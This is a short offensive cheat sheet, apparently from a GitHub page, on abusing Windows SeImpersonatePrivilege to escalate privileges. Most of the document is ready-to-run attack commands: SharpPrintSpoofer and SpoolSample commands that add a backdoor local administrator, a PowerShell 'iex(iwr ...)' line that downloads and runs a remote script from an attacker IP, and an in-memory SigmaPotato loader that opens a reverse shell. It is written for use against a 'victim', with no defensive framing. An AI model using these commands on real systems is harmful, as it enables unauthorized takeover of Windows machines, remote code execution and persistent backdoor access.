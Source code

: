 # Leveraging SeImpersonatePrivilege

### Method 1

- We can exploit it using the two tools: `SpoolSample.exe` and `SharpPrintSpoofer.exe`.
- My recommendation will be just to create a new local administrator: 
```
.\SharpPrintSpoofer.exe \\.\pipe\test\pipe\spoolss "net user amit Password123! /add"
.\SharpPrintSpoofer.exe \\.\pipe\test\pipe\spoolss "net localgroup administrators amit /add"
```

Once SharpPrintSpoofer is listening, trigger the pipe with SpoolSample:
- `.\SpoolSample.exe <hostname> <hostname>/pipe/test`

### Method 2 - two in one
*Note: The SpoolSampleModified including already the functionality of `SharpPrintSpoofer.exe`, thus this one binary can handle the privielge escalation.*

Transfer to victim and run:
- `SpoolSampleModified.exe <hostname> <hostname>/pipe/test "C:\Windows\System32\cmd.exe /c powershell iex(iwr http://192.168.45.195/hollow.ps1 -useb)"`

### Usage from Memory via .NET Reflection with SigmaPotato

Load from a Remotely Hosted Binary via a WebClient:
```
$WebClient = New-Object System.Net.WebClient
$DownloadData = $WebClient.DownloadData("http(s)://<ip_addr>/SigmaPotato.exe")
[System.Reflection.Assembly]::Load($DownloadData)
# Execute Command
[SigmaPotato]::Main("<command>")
# Establish a PowerShell Reverse Shell (one-liner)
[SigmaPotato]::Main(@("--revshell","<ip_address>","<port>"))
```
